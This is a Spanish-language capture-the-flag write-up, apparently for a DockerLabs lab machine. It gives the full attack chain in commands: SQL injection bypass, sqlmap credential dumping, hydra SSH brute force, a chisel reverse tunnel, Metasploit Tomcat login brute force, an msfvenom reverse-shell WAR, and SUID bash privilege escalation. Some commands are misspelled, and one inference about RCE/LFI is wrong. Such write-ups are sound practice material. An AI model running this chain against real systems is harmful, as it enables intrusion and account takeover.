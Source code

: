 nmap: 22,80

![image](https://github.com/user-attachments/assets/c7952ccc-1a71-4e0f-8171-57b0b65eff9f)

---

entramos a la pagina principal

![image](https://github.com/user-attachments/assets/5b370534-bdd8-4936-8f3f-2f41dd4890cf)


En el login de la pagina

![image](https://github.com/user-attachments/assets/08eeadc6-b8c7-451d-8990-0d9e60ec74bf)


probamos un sql básico " 'or 1=1-- -" y nos da acceso al panel de control, o sea es vulnerable a un RCE o LFI.  y buscando que mas hacer par obtener algún usuario o algo, encontré que podemos ver la base de datos por esto:

![image](https://github.com/user-attachments/assets/f7d1bf36-5e3a-44ae-b6b6-610cded1346a)


probamos con la base de datos

    sqlpmap --url http://172.17.0.2/login.php --forms --batch --dbs

![image](https://github.com/user-attachments/assets/5135f540-3545-4ba5-9d04-2dd87713d821)


ahora mas especifico:

    qlmap --url http://172.17.0.2/login.php --forms --batch --dbs --time-sec=1 --dump

nos da después de un rato una tabla con usuarios y contraseñas posibles:

![image](https://github.com/user-attachments/assets/763169fd-80d6-447c-be57-2bdafc6f3932)

creamos en nuestra terminal un txt de pass y user. 
luego un hydra para que pruebe combinaciones: 

    hydra -L user.txt -P pass.txt ssh://172.17.0.2 -vV

nos dio: 

![image](https://github.com/user-attachments/assets/e52d80f1-af2d-4400-aa76-828e83f0f9d8)

entramos por el ssh

![image](https://github.com/user-attachments/assets/f7c0fa87-a2b7-41cd-a94f-e3c665e96fac)

y vemos que hay tres usuarios: Alice, Mario y rosa que somos nosotros.

escalamos: encontré esta nota  

![image](https://github.com/user-attachments/assets/d19e416a-dacb-41fd-a87b-8d763cce1240)

![image](https://github.com/user-attachments/assets/f8951e5a-d763-411d-834c-04e1c4690a46)

el contenido de la nota: flowerpower
probé si era la contraseña pero no es
buscando probé con el comando 

     netstat -an

y me dio esto que me llamo la atención

![image](https://github.com/user-attachments/assets/78ebbd5b-efa2-49a3-84c4-9d4d57fd3244)

descargamos chisel: https://github.com/jpillora/chisel/releases/tag/v1.10.0

gunzip chisel
y lo pasamos a la maquina victima con wget mientras tenemos el servidor abierto en nuestra terminal. 

    wget http://172.17.0.2/chisel

![image](https://github.com/user-attachments/assets/426933b9-39c2-4449-a92d-6419d50b27e2)

iniciamos en nuestra terminal un servidor: 

    ./chisel server -p 1234 --reverse
y en la maquina víctima: 

    ./chisel client 172.17.0.1:1234 R:443:127.0.0.1:8080

![[dockerlabs/dificil/crackoff/conexion1.png]]

entonces entramos al puerto 8080 por el 443:
http://127.0.0.1:443/
![[tomcat.png]]

ahora empezamos a escalar hacia los otros usuarios a través de "manager app" de la pagina tomcat.

como ninguna credencial que buscamos en: https://book.hacktricks.xyz/v/es/network-services-pentesting/pentesting-web/tomcat

sirvió mas abajo en la misma pagina nos muestra que busquemos por metasploit:

hacemos una fuerza bruta  a través de metasploit con los siguientes pasos:

     - use auxiliary/scanner/http/tomcat_mgr_login
     - set RHOSTS 127.0.0.1
     - set RPORT 8080
     - set USER_FILE /home/skopjee/user.txt
     - set PASS_FILE /home/skopjee/pass.txt
     - set TARGETURI /manager/html
     - run
y nos dio

    [+] 127.0.0.1:8080 - Login Successful: tomitoma:supersecurepasswordultra


ingresamos a mager app
![[panel2.png]]

creamos un archivo malicioso: 

    msfvenom -p java/jsp_shell_reverse_tcp LHOST=172.17.0.1 LPORT=4444 -f war -o rev.war

lo subimos en el apartado de "WAR"
![[dockerlabs/dificil/crackoff/war.png]]

cargamos y a parecerá en la parte principal de la pagina como "rev"
![[rev.png]]

ahora colocamos el terminal en escucha y nos conectamos
![[dockerlabs/dificil/crackoff/conexion2.png]]

luego de conectarme buscamos como llegar a root:
![[catalina.png]]

escalamos privilegios con sh:

    echo 'chmod u+s /bin/bash' >> /opt/tomcat/bin/catalina.sh

ahora lo iniciamos

     sudo -u root /opt/tomcat/bin/catalina.sh start

si vemos los permisos bash veremos que cambiaron:

 ![[dockerlabs/dificil/crackoff/root.png]]

y al hace el bash -p seremos root!

